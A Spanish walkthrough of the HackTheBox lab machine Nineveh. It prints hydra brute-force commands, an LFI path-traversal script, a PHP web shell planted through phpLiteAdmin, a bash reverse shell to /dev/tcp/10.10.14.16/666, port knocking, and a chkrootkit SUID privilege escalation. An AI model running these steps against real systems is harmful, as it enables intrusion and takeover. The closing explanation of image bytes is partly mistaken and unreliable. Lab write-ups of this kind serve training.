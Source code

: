 # 10.10.10.43 - Nineveh
-----------------------

Puertos abiertos 80(http), 443(https):
- Puerto 80 -> Apache/2.4.18
- Puerto 443 -> Apache/2.4.18, nineveh.htb

Ponemos en el /etc/hosts el dominio nineveh.htb
La web del puerto 443 nos muestra una foto:


-------------------------------
# Parte 2: Web del puerto 80 -> LFI

Fuzzing:
```console
└─$ wfuzz -c --hl=5 -w $(locate subdomains-top1million-5000.txt) -H "Host: FUZZ.nineveh.htb" -u http://nineveh.htb/ -t 100
└─$ wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://nineveh.htb/FUZZ/
000003008:   200        1 L      3 W        68 Ch       "department"
```

La página /department tiene un panel de login. Si pongo de usaurio "admin" me sale "Invalid Password!"
```console
└─$ hydra -P /usr/share/wordlists/rockyou.txt -l admin nineveh.htb http-post-form '/department/login.php:username=admin&password=^PASS^:F=Invalid Password!' -t 64
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
```

Conseguimos entrar con esa contraseña, y encontramos en /notes
```
Mira tu carpeta secreta para llegar! Deducela! Ese es tu reto

Mejora la interfaz de la base de datos
~amrois
```

Si vemos la url tenemos: "10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt" Ademas tenemos una 
cookie PHPSESSID

```console
└─$ curl -s --cookie "PHPSESSID=r9rc4nq15k34d7e09ua4m6jaq3" http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt
```

```bash
#!/bin/bash

while true; do
    echo -n "$:> " && read file
    curl -s --cookie "PHPSESSID=r9rc4nq15k34d7e09ua4m6jaq3" \
    http://10.10.10.43/department/manage.php?notes=$file | html2text
done
```
```
$:> files/ninevehNotes.txt # lo mismo
$:> ../../../../files/ninevehNotes.txt # path traversal
Warning:  include(): Failed opening '../../../../files/ninevehNotes.txt' for inclusion 
(include_path='.:/usr/share/php') in /var/www/html/department/manage.php on line 31
$:> files/ninevehNotes.txt/../../../../../../etc/passwd # el mismo error
$:> files/ # No Note is selected.
$:> /var/www/html/department/manage.php # No Note is selected
$:> files/ninevehNote # No Note is selected.
$:> files/ninevehNotes # el error largo 
$:> files/ninevehNotes/../../../../../../../etc/passwd  # Asi se logra bypasear esto
```
Esto se debe a que "files/ninevehNotes" esta whitelisteado, es decir tiene que estar por narices

```bash
file=$1
curl -s --cookie "PHPSESSID=r9rc4nq15k34d7e09ua4m6jaq3" \
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes/../../../../../../$file | html2text
```

```console
└─$ ./files.sh /etc/passwd | grep "sh$"
# Usuarios -> el amrois este
└─$ ./files.sh /proc/net/fib_trie | grep "LOCAL" -B 1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u  | tr "\n" " "
# 10.10.10.43 127.0.0.1 # O sea no hay dockers
└─$ ./files.sh /proc/net/tcp
# Puerto 22, 443 y 80.


----------------------------

# Parte 3: Web del puerto 443

```console
└─$ curl -s https://nineveh.htb/ninevehForAll.png -k -O
└─$ exiftool ninevehForAll.png # Nada interesante aparte de Software : Shutter

└─$ wfuzz -c --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt https://nineveh.htb/FUZZ/
000000835:   200        485 L    974 W      11430 Ch    "db"
000095763:   200        5 L      7 W        71 Ch       "secure_notes"
```

secure-notes nos da una imagen:
```console
└─$ curl https://10.10.10.43/secure_notes/nineveh.png -O -k
└─$ exiftool nineveh.png # Nada
└─$ strings nineveh.png
# llave de amrois y llave privada que copiamos con el nombre id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
...
└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa amrois@nineveh.htb
# Error puerto 22 cerrado
```

Tenemos un panel de login, si le ponemos la contraseña que obtuvimos en la otra vez con hydra dice "Incorrect password."

```console
└─$ hydra -P /usr/share/wordlists/rockyou.txt -l admin nineveh.htb https-post-form '/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:F=Incorrect password' -t 64
[443][http-post-form] host: nineveh.htb   login: admin   password: password123
```
Entramos, Nos topamos con un panel de administración:
Como no sabemos aparentemente que hacer y tenemos que esto se llama phpLiteAdmin: ```searchsploit phpliteadmin```

El exploit "24044.txt" dice que
1. Php lite admin te puede dejar crear una base de datos, si no le pones una extension (ej database.db) se la pone
ello solo.
2. Un atacante puede crear una database.php ej "hack.php" que esto guardará esa base de datos sqlite en el mismo
lado que phpliteadmin.php
3. Crear una tabala en esa database y meter como texto "<?php phpinfo()?>"
4. Correrlo


Creamos la database/tabla y le ponemos como texto ```<?php system($_GET["cmd"]); ?>```
Dice que la ruta donde lo guarda es "/var/tmp/hack.php:
```console
└─$ ./files.sh /var/tmp/hack.php
Parse error:  syntax error, unexpected 'cmd' (T_STRING), expecting ']' in /var/
└─$ ./files.sh "var/tmp/hack.php&cmd=pwd";   # el & en lugar de ? por haber un ? previo.


```bash -c 'bash -i >& /dev/tcp/10.10.14.16/666 0>&1'``` Cambiando los "&" por "%26" tenemos la shell.
Si enumeramos el sistema con nuestro script de confianza:
- Usarios: root y amrois
- /etc/apache2/sites-enabled/000-default.conf
- Backups: /var/backups/group.bak /var/backups/gshadow.bak /var/backups/passwd.bak /var/backups/shadow.bak
- Corriendo el /usr/sbin/knockd 


Knock
```console
www-data@nineveh:/tmp$ cat /etc/knockd.conf
[openSSH]  sequence = 571, 290, 911 
└─$ for port in 571 290 911; do nmap -Pn --host-timeout 100 --max-retries 0 -p $port 10.10.10.43 ; done
# Ya con esto tenemos los puertos abiertos
└─$ ssh -i id_rsa amrois@nineveh.htb
amrois@nineveh:~$
```

Tambien subimos el **procmon.sh**
- /bin/sh /usr/bin/chkrootkit

Buscamos el exploit y damos con "linux/local/33899.txt"  CVE-2014-0476
Los pasos que da el exploit (segun esto ejecutar todo archivo llamado /tmp/update): 

```console
amrois@nineveh:~$ nano /tmp/update
#!/bin/bash
chmod u+s /bin/bash
amrois@nineveh:~$ chmod +x /tmp/update
amrois@nineveh:~$ bash -p
bash-4.3# whoami
root
```

```bash
SLAPPER_FILES="/tmp/.bugtraq /tmp/.bugtraq.c /tmp/.unlock /tmp/httpd /tmp/update"

for i in ${SLAPPER_FILES}; do   # Por cada uno de estos archivos (que se almacenan como $i)
   if [ -f ${i} ]; then			# Si no es una carpeta
      file_port=$file_port $i	# Esta linea ejecuta i porque que faltan los "" (entonces no es una string sino un comando) -> "$file_port $i"
      STATUS=1					# Lo da por bueno
   fi
```


```
└─$ binwalk nineveh.png                                                                                         13DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1497 x 746, 8-bit/color RGB, non-interlaced
84            0x54            Zlib compressed data, best compression
2881744       0x2BF8D0        POSIX tar archive (GNU)
```

Si hacemos un vim a la foto
```console
10395 <85>^DGaÐXt6[åpy]=]µJ~×`ÈeRB<99><82>E'n^[^Nh4FÐåùå/...
      @^@^@^@^@^@^@^@^@^@^@^@^@-----BEGIN RSA PRIVATE KEY-----
10396 MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
```
Todos esos caracteres raros ^DGaÐ son los bits de la foto forzadamente pasados a ascii o sea el bit que puede
significar "traduce este pixel a 130% de rojo" se puede traducir por ejemplo en "A}". Los que se ven "@^"
esque no tienen traduccion posible ya que 256 (posibles valores numericos de un bit) es mayor que el numero
de caracteres unicode o ascii asi que hay muchos que se quedan sin nada.

Entre toda esa sopa de bits, si que hay fragmentos de texto escondidos que son utiles, o sea la informacion escondida.







